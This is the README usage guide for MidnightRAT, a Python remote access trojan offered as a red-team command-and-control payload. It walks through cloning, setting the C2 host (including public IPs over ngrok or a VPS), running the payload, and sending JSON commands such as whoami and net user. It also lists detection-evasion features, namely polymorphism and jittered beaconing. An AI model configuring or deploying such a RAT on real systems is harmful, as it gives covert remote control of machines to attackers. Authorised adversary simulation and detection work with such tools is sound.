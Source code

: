 # 🧪 MidnightRAT — Usage Guide

**Author:** Syed Sharjeel Zaidi  
**Tool:** MidnightRAT Payload  
**License:** MIT  
**Category:** Red Team / Adversary Simulation / C2 Payload

---

## ⚠️ Legal Disclaimer

> This tool is created strictly for **educational purposes and authorized red team use only**.  
>
> ❌ Do NOT use on unauthorized systems or networks.  
> ✅ Always have **explicit permission** when deploying this in any environment.  
> 🧠 The author holds **no responsibility** for any misuse or damage caused by this tool.

---

## 📌 Overview

**MidnightRAT** is a Python-based encrypted C2 payload that allows a red teamer to:

- Execute system-level commands remotely
- Maintain covert communication with a C2 server
- Use runtime polymorphism and adaptive sleep to evade detection

It's designed for ethical hacking labs, adversary simulations, malware analysis, and detection engineering.

---

## 🧰 Prerequisites

- ✅ Python 3.8 or newer
- ✅ pip installed
- ✅ Test environment (VM, sandbox, or safe lab machine)

---

## 📦 Step 1: Clone the Repository

```bash
git clone https://github.com/syedsharjeelshah/MidnightRAT.git
cd MidnightRAT
```

## 📥 Step 2: Install Dependencies

```bash
pip install -r requirements.txt
```

## ⚙️ Step 3: Configure the RAT Payload

- Open midnight_rat.py and locate this line:

```bash
agent = MidnightRAT(c2_host="127.0.0.1", c2_port=8080)
```

| Scenario                    | Example                                     |
| --------------------------- | ------------------------------------------- |
| 🔁 Local testing            | `127.0.0.1`                                 |
| 🌐 Remote lab               | Your local IP, e.g., `192.168.1.10`         |
| 🧪 Public test (VPN/tunnel) | Your public IP or domain (ngrok, VPS, etc.) |

## 📡 Step 4: Start the C2 Listener

## 🚀 Step 5: Run the RAT Payload

- On the test machine or VM, run the payload:

```bash
python midnight_rat.py
```

MidnightRAT will:

- Connect to the configured C2 server
- Sleep (with jitter) between beacons
- Receive commands
- Execute them
- Send encrypted results back

## 📤 Step 6: Send Supported Commands

MidnightRAT accepts encrypted JSON-formatted commands.

| Command    | Description                           |
| ---------- | ------------------------------------- |
| `whoami`   | Show current user                     |
| `ipconfig` | Show IP info (Windows)                |
| `ls`       | List directory contents (Linux/macOS) |
| `net user` | Show local user accounts (Windows)    |

Example Command Payload:

```bash
{
  "type": "syscall",
  "data": "whoami"
}
```
